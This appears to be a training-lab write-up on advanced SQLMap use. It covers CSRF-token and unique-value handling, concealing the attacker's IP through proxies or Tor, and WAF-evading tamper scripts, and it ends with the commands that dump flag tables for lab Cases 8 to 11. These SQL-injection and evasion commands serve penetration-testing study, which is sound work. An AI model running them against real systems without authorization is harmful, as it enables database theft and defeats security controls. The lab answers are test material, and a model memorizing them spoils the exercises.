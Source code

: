 # 🌚 Advanced SQLMap

## Bypassing Web Application Protections

### Anti-CSRF Token Bypass

The option to do this is `--csrf-token`. By specifying the token parameter name (which should already be available within the provided request data), SQLMap will automatically attempt to parse the target response content and search for fresh token values so it can use them in the next request.

```shell-session
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```

### Unique Value Bypass

In some cases, the web application may only require unique values to be provided inside predefined parameters.

For this, the option `--randomize` should be used, pointing to the parameter name containing a value which should be randomized before being sent

```shell-session
sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI
```

### IP Address Concealing

In case we want to conceal our IP address, or if a certain web application has a protection mechanism that blacklists our current IP address, we can try to use a proxy or the anonymity network Tor. A proxy can be set with the option `--proxy`

`--proxy="socks4://177.39.187.70:33283"`, where we should add a working proxy.

### Tamper Scripts

This is used for bypassing WAF/IPS solutions. It works by replacing all occurrences of greater than operator (`>`) with `NOT BETWEEN 0 AND #`, and the equals operator (`=`) with `BETWEEN # AND #`. This way, many primitive protection mechanisms (focused mostly on preventing XSS attacks) are easily bypassed,

It works with `--tamper` option (e.g. `--tamper=between,randomcase`)

_**What's the contents of table flag8? (Case #8)**_

```
sqlmap "http://94.237.62.203:52197/case8.php" --data="id=1&t0ken=SuQhbWwUwbl9sxBQlHFPJLmBfBifEvKZgGfeCpq8i8" --csrf-token="t0ken" --batch --dump
```

_**What's the contents of table flag9? (Case #9)**_

```
sqlmap -u "http://94.237.62.203:52197/case9.php?id=1&uid=760203960" --randomize=uid --batch -v 5 --dump
```

_**What's the contents of table flag10? (Case #10)**_

```
sqlmap -r case10.txt -T flag10 --dump
```

_**What's the contents of table flag11? (Case #11)**_

```
sqlmap -r case11.txt -T flag11 --dump --tamper=between
```
